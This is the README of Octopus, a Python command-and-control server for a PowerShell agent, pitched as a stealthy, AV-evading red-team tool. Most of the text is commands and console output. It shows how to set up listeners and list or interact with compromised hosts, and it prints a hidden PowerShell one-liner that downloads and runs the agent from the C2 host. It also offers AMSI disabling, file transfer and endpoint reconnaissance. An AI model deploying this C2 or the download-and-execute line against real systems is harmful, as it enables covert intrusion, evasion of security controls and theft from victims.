





# What is Octopus ?  

  Octopus is an open source pre-operation C2 server based on python which can control an Octopus powershell agent through HTTP/S.

  The main perpose of creating Octopus is to use it before any red team operation, Insted of start the engagement with your operation infrastrcture, you can use Octopus first to attack the target and gather some inforamtion before you start your attack because Octopus works in very simple way to execute command and exchange it with the C2 in a well encrypted channel which makes it unsuspicious and undetectable from almost every AV and endpoint and network protection.

  There is a cool feature in Octopus called ESA "Endpoint Situational Awareness" which will gather some important information from the target endpoint that will help you to understand the target network endpoints that you will face during your operation, which will give you a shot to customize your real operation based on this informations.

  Octopus designed to be stealthy and covert while communicating with the C2 because it use AES-256 as a default encryption channel between the powershell agent and the C2 server, and also you can use Octopus through TLS/SSL too by providing a valid certficate for your domain and start Octopus C2 server using it.


  # Octopus key features
  Octopus let you as a attacker to execute system commands and do some other stuff that you may need before you start your real engagement such as :


  * Control agents throught HTTP/S.
  * Execute system commands.
  * Download / Upload files.
  * Load external powershell modules.
  * Use encrypted channels (AES 256) between C2 and agents.
  * Use unsuspicious techniuqes to execute commands and transfer results.
  * Create custom and multiple listeners for each target.
  * Generate different types of payloads.
  * **Gather information automatically from the endpoint (endpoint situational awareness) feature.**

# requirements

You can install all Octopus requirements via :

```pip install -r requirements.txt```

Octopus has been tested on the following operating systems:

* Ubuntu (18.04)
* Ubuntu (16.04)
* Kali Linux (2019.2) (No need to install requirements.txt)

If you have any troubles using Octopus, feel free to open an [issue](https://github.com/mhaskar/Octopus/issues) !

# Installation
First of all make sure to download the latest version of Octopus using the following command :

```git clone https://github.com/mhaskar/Octopus/```

Then you need to install the requirements using the following command :

`pip install -r requirements.txt`

After that you can start octopus server like the following :

`./octopus.py`

To get the following results :

```
┌─[askar@arrow]─[/opt/Octopus]
└──╼ $./octopus.py


  /$$$$$$              /$$
 /$$__  $$            | $$
| $$  \ $$  /$$$$$$$ /$$$$$$    /$$$$$$   /$$$$$$  /$$   /$$  /$$$$$$$
| $$  | $$ /$$_____/|_  $$_/   /$$__  $$ /$$__  $$| $$  | $$ /$$_____/
| $$  | $$| $$        | $$    | $$  \ $$| $$  \ $$| $$  | $$|  $$$$$$
| $$  | $$| $$        | $$ /$$| $$  | $$| $$  | $$| $$  | $$ \____  $$
|  $$$$$$/|  $$$$$$$  |  $$$$/|  $$$$$$/| $$$$$$$/|  $$$$$$/ /$$$$$$$/
 \______/  \_______/   \___/   \______/ | $$____/  \______/ |_______/
                                        | $$
                                        | $$
                                        |__/


					    V1.0 BETA !


 Octopus C2 | Control your shells


Octopus >>

```
# Usage

Usage of Octopus is really simple, you just need to start a listener and generate your agent based on that listener information.

You can generate listeners as much as you want then you can start interacting with your agents.


### Listeners

Octopus has two main listeners "http listener" and "https listener" , and the options of the two listeners are nearly the same.

*** HTTP listener : **

`listen_http` command takes the following arguments to start:

- BindIP  		which is the IP address that will be used by the listener
- BindPort  	which is the port you want to listen on
- Hostname 		will be used to request the payload from
- Interval 		how may seconds that agent will wait before check for commands
- URL  			page name will hold the payload
- Listener_name  	listener name to use

and also you can view an examples of it if you executed `listen_http` command like the following:

```
Octopus >>listen_http
[-] Please check listener arguments !
Syntax  : listen_http BindIP BindPort hostname interval URL listener_name
Example (with domain) : listen_http 0.0.0.0 8080 myc2.live 5 comments.php op1_listener
Example (without domain) : listen_http 0.0.0.0 8080 172.0.1.3 5 profile.php op1_listener

##########
Options info :

BindIP  		IP address that will be used by the listener
BindPort  		port you want to listen on
Hostname 		will be used to request the payload from
Interval 		how may seconds that agent will wait before check for commands
URL  			page name will hold the payload
Listener_name  	listener name to use

Octopus >>

```

And we can start a listener using the following command :

`listen_http 0.0.0.0 8080 192.168.178.1 5 page.php operation1`

We will get the following result:

```
Octopus >>listen_http 0.0.0.0 8080 192.168.178.1 5 page.php operation1
Octopus >> * Serving Flask app "core.weblistener" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off

Octopus >>

```

a listener started successfully, and we can view all the listeners using `listeners` command to get:

```
Octopus >>listeners


Name        IP         Port  Host             Interval  Path      SSL
----------  -------  ------  -------------  ----------  --------  -----
operation1  0.0.0.0    8080  192.168.178.1           5  page.php  False


Octopus >>

```

*** HTTPS listener : **

### Generate agents

To generate an agent for the listener `operation1` we can use the following command:

`generate_powershell operation1`

and we will get the following results:
```
Octopus >>generate_powershell operation1

powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"
```

Now we can use this oneliner to start our agent.

### Interacting with agents

first of all you can list all the connected agents using `list` command to get the following results:
```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>

```

And then we can use `interact` command to interact with the host like the following:

```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>interact 1
(HR-PC-TYRMJ) >>

```

And you can list all the available commands to use using `help` command like the following:

```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>interact 1
(HR-PC-TYRMJ) >> help


Available commands to use :

Hint : if you want to execute system command just type it and wait for the results

+++++++++
help  				show this help menu
exit/back 			exit current session and back to the main screen
clear 				clear the screen output
upload 				upload file to the target machine
download 			download file from the target machine
load 				load powershell module to the target machine
disable_amsi 		disable AMSI on the target machine
report 				get situation report from the target


(HR-PC-TYRMJ) >>

```

and to execute a system command directly we can type the command directly and then wait for the results based on the interval check time that we set when we created the listener.

```
(HR-PC-TYRMJ) >> ipconfig
[+] Command sent , waiting for results
(HR-PC-TYRMJ) >>
Command execution result is :

Windows IP Configuration


Ethernet adapter Ethernet1:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : home
   Link-local IPv6 Address . . . . . : fe80::f85f:d52b:1d8d:cbae%10
   IPv4 Address. . . . . . . . . . . : 192.168.1.43
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1

Ethernet adapter Ethernet:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :


(HR-PC-TYRMJ) >>
```

In this case the command has been encrypted and then sent to the agent, after that the client will decrypt the command and execute it, then the agent will encrypt the results and send it back again to the C2 to decrypt it and show the results.

Also we can use `report` command to get the ESA information like the following:

```
(HR-PC-TYRMJ) >> report
[+] Command sent , waiting for results
(HR-PC-TYRMJ) >>
Endpoint situation awareness report for HR-PC-TYRMJ

=============
Hostname : 	HR-PC-TYRMJ
Domain : 	darkside.com
OS : 		Microsoft Windows 10 Pro(64-bit)
OS build : 	10.0.17134
OS arch : 	64-bit
AntiVirus : Symantec
SIEM solution : False

(HR-PC-TYRMJ) >>
```


# Screenshots










